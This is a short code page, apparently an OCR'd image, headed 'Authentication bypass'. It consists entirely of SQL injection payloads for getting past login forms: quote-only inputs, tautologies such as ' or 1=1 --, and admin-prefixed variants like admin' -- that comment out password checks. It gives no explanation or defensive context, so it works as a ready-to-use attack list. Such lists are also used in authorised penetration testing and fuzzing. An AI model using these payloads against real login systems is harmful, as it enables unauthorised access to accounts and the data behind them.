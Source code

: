 ## Authentication bypass

```sql
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
```